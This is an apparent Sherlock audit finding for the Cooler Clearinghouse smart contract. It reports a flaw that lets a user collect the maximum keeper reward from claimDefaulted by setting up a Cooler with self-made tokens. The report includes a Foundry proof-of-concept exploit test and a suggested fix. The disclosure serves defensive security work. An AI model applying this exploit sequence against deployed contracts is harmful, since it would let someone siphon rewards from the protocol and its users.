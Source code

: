 Amusing Mercurial Ostrich

high

# Exploitable Vulnerability in Clearinghouse Contract's Reward Mechanism
## Summary
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L191
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L204
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L216-L224
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L241
As can be seen from `ClearingHouse.sol` `claimDefaulted` function calls `Cooler` `claimDefaulted` function and take inforamation of how much time passed from expired in `elapsed` variant.And keeperReward is `maxReward*elapsed/7days`.
A user can take all `maxAmount` when expiration pass 1 week.
However a malicious user can take all `maxAmount` even after 1 seconds after expire.

## Vulnerability Detail
The clearinghouse.claimDefaulted function can be exploited. A malicious user can create two malicious ERC20 tokens, use them to create a Cooler, and then exploit the clearinghouse.claimDefaulted function with this Cooler.

The provided code snippet demonstrates a test for this vulnerability. In this test, a hacker creates a Cooler with malicious tokens, and by exploiting the vulnerability, the hacker gains unauthorized rewards.


```solidity
    function testPOC() public{
        (Cooler coolx,uint256 need, uint256 IDD)=_createLoanForUser(3 ether);// 3 ether debt(dai) 0.001 ether colleteral(gOHM)
        address hacker=vm.addr(1);
        MockERC20 x=new MockERC20("X","x",0);//hacker's malicious token
        MockERC20 y=new MockERC20("Y","y",0);//hacker's malicious token
        x.mint(hacker,type(uint256).max);
        y.mint(hacker,type(uint256).max);
        Cooler mCool=Cooler(factory.generateCooler(x,y));//hacker generate cooler cooler for (x,y) token pair.
        vm.startPrank(hacker);
        x.approve(address(mCool),type(uint256).max);
        y.approve(address(mCool),type(uint256).max);
        mCool.requestLoan(1e15,0,1,0);// he request loan as 0.001 ether in 1 loanTo colleteral so colletral 0.001  duration 0 so expire immediently.
        mCool.clearRequest(0,false,false);// activate loan by himself.
        vm.warp(block.timestamp+121 days+1);// 121 days is  duration amount for clearingHouse.So this is the time coolx IDD loan is expire.
        coolx.claimDefaulted(IDD);//hacker directly call coolx cliamedDefaulted for IDD, by this way gOHM tokens go to clearingHouse.
        ohm.mint(address(clearinghouse), gohm.balanceOf(address(clearinghouse)));//due to dont revert test for burnOHM part i mint OHM too like developers do for test.
        uint256[] memory ids = new uint256[](1);
        address[] memory coolers = new address[](1);
        coolers[0]=address(mCool);
        ids[0]=0;
        uint256 before=gohm.balanceOf(hacker);
        clearinghouse.claimDefaulted(coolers,ids);//hacker call claimDefaulted for his mCool(x,y tokens' cooler) for take gOHM he send with coolx.claimDefaulted.
        uint256 afterx=gohm.balanceOf(hacker);
        console.log(afterx-before);  // after run this code it can be seen that hacker take 5*(10**13) token which equals to 10**15/20.  
    }
```
please paste this test to `ClearingHouse.t.sol` `ClearingHouseTest` contract and run with `forge test --match-test "testPOC" -vv`.
It can be seen that hacker's balance will be 5e13. So hacker will take gOHM like if coolx loan expire more than 1 week.
## Impact
This vulnerability allows a malicious user to obtain maximum rewards without waiting for the one-week period to pass after a loan's expiration.
## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L191
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L204
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L216-L224
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L241
## Tool used

Manual Review

## Recommendation
Add check in  `clearinghouse.claimDefaulted`: loan.lender==clearingFactory. 